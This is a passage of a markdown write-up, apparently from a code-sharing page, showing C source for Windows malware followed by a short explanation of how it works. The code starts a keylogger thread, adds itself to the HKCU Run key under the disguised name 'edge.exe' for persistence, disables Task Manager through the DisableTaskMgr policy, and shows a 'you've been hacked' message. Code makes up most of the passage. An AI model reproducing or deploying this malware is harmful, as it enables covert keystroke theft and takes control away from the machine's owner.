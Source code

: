 ```c
    HKEY hKey; // contains autorun registry key
    WCHAR myPath[4000];
    LPCWSTR keyPath = key_path;
    LPCWSTR valueName = val_name;
    GetModuleFileName(NULL, myPath, 4000); // obtain path to exe
    if (RegOpenKeyEx(HKEY_CURRENT_USER, keyPath, 0, KEY_WRITE, &hKey) == ERROR_SUCCESS) {
        RegSetValueEx(hKey, valueName, 0, REG_SZ, (const BYTE*)myPath, (wcslen(myPath)+1) * sizeof(wchar_t));
    }
    RegCloseKey(hKey);
} // do one for the autorun (check for it as well) and disable task manager.

void disable_taskmgr() {
    HKEY hKey; // contains autorun registry key
    WCHAR myPath[5000];
    LPCWSTR keyPath = L"Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System";
    LPCWSTR valueName = L"DisableTaskMgr";
    DWORD Value = 1;
    GetModuleFileName(NULL, myPath, 5000); // obtain path to exe
    RegCreateKeyEx(HKEY_CURRENT_USER, keyPath, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE, NULL, &hKey,NULL);
    if (RegOpenKeyEx(HKEY_CURRENT_USER, keyPath, 0, KEY_WRITE, &hKey) == ERROR_SUCCESS) {
        RegSetValueEx(hKey, valueName, 0, REG_DWORD, (const BYTE*)&Value, sizeof(Value));
    }
    RegCloseKey(hKey);
}

int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
    HANDLE hThread = CreateThread(NULL, 0, KeyloggerThread, NULL, 0, NULL);
    if (hThread) {
        scare_message();
        registry_adder(L"Software\\Microsoft\\Windows\\CurrentVersion\\Run", L"edge.exe");
        disable_taskmgr();
        WaitForSingleObject(hThread, INFINITE);
        CloseHandle(hThread);
    }
    return 0;
}
```

The malware achieves persistence by `registry_adder()` function where it adds a registry value to the key `HKCU/Software/Microsoft/Windows/CurrentVersion/Run` which adds the program to startup named as `edge.exe`

The malware also disables task manager from the currently logged in user by creating a new key named `System` under `HKCU/Software/Microsoft/Windows/CurrentVersion/Policies`.

Lastly, the malware attempts to scare the user by opening up notepad saying that the user's been hacked using `ShellExecuteEx()`

>[!note] Notice
>You may notice that the program's entry point is not `main()` but `WinMain()`. This is because this application is a Windows subsystem application which exterminates **the need for a console window.**
